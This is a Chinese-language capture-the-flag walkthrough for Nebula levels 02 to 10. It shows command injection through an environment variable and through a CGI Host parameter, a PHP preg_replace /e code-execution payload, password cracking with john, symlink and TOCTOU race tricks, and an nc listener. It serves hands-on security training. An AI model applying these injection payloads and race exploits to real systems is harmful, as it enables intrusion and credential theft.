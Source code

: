 ###  level02
attack-env-again

修改USER变量, export USER='`/bin/getflag01`'
![](img/level02.png)

### level03
attack-crontab

在writable.d下创建文件test，内容为`/bin/getflag03>/home/flag03/a.txt`
程序会不定期调用该test文件
在a.txt中查看flag
![](img/level03.png)

### level04
get-token

用ln -s /home/flag04/token /home/level04/test1创建链接
执行flag04 获得密码
登录flag04用户获取flag
![](img/level04.png)

### level05
steal-key

ls -a查看隐藏文件，将文件拷贝到home里，解压缩，ssh登录
![](img/level05.png)

### level06
crack-password

在passwd中找到flag06密码，用john破解，得到密码ftc，远程登录
vi /etc/passwd
john hash001(复制密码到该文件中)
![](img/level06.png)

### level07
cgi-vuln

在/home/flag07下找到index.cgi文件，并根据thpptd得知文件在8888端口
通过浏览器访问8888下的index.cgi文件
查询文件，得知需要Host参数，于是在后面加上?Host=127.0.0.1%26/bin/getflag07(其中%26位&的url加密格式)
![](img/level07.png)

### level08

analyze-packets

在flag08下找到数据包文件，先拷贝到level08下，再远程传送到本地，利用wireshark分析数据包
找到password后面的明文字符为：
backdoor+【del】+【del】+【del】+00R+m8+【del】+ate+【enter】
整合后，密码为`backd00Rmate`
登录后获得flag
![](img/level08.png)


### level09

attack-php

在flag09下查看PHP文件，注意到php正则匹配中有\e模式，preg_replace的第二个参数会被当做代码执行，因此在level09下创建临时文件test，内容为：
`[email ${${system(getflag09)}}]`
成功获得flag
![](img/level09.png)


### level10

race-conf-vuln

TOCTOU（time of check，time of use）问题
程序先根据uid判断是否有读取权限，如果有，才能继续执行，破解方法是先打开一个当前用户有权限的程序，再对打开的内容进行更改；程序输出在18888端口

窗口1：
监听18888端口
`nc -k -l 127.0.0.1 18888`

窗口2：
新建一个窗口，在/tmp目录下创建token文件，作为有权限打开的假token文件；创建一个可执行文件xx，执行循环：
```
while true
do
    ln -sf /tmp/token /tmp/token10
    ln /sf /home/flag10/token /tmp/token10
done
```
执行命令
`chmod +x xx;./xx`

窗口3：
新建一个窗口，在/tmp目录下创建一个可执行文件yy，执行循环：
```
while true
do
    nice -n 19 /home/flag10/flag10 /tmp/token10 127.0.0.1
done
```

在窗口一中获得flag10的token：`b3c5-6d82-7sfc`
登录，获取flag
![](img/level10.png)





